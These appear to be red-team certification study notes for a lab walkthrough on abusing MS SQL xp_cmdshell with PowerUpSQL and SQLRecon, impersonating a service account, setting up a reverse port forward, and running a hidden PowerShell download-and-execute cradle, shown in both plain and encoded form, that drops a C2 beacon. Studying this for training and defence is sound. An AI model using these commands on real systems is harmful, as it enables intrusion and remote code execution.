 
The _xp_cmdshell_ procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges.

#### 🖊️ checking the execution environment

1) Check if [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) tool `invoke-sqloscmd` can help you execute commands:

`beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults`

⚠ This is disabled in Heidi and mssqlclient. If you are using either of them check this section to enable it: [[Enable Invoke-SQLOSCmd]]

2) If you are working with SQLRecon it also has a module to interact with xp shell, and you can impersonate as well:

`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc`

3) After impersonating, test if you can run commands:

`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig`

#### 📔 Run payloads

1) With command execution in the MS SQL server, we can work towards executing a Beacon payload. ==If you encounter a situation where the MS SQL cant reach the C2 directly, or there are firewall restrictions, tunnel the communication through one of the pwned machines (your current beacon session). Then, get the beacon into the server and run it.

In this lab exercise, the MSSQL Server cant reach the C2, we will:
- enable communication on the local firewall
- open a reverse port forward on machine **wkstn-2**
- route traffic reaching wkstn-2 on port 8080 to port 80 on C2 (so the MSSQL can get the payload)
- the payload will be downloaded and run with the powershell command executed on the ms sql server
- connect to it since its a bind connection payload (smb_x64.exe)

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

2) In this lab we know the mssql has SMB open, but check open ports in the target server. Host the payload on the team server. Then, download the payload into the MS SQL Server using this powershell command which will also execute it:

`powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"`
Or
`powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=`

With this, the mssql server reaches to wkstn-2 for file "b", the traffic is routed to the C2, obtained, downloaded into the mssql server, and the payload is executed.


⚠ Experiment with using the [[Pivot Listener]] here instead of SMB.

3) Finally, link yourself to the beacon

`beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337`

![[mssqlsvc-beacon.png]]


#### ⚠ Opsec




### Properties
---
📆 created   {{21-02-2024}} 15:08
🏷️ tags: #redteam #crto 

---

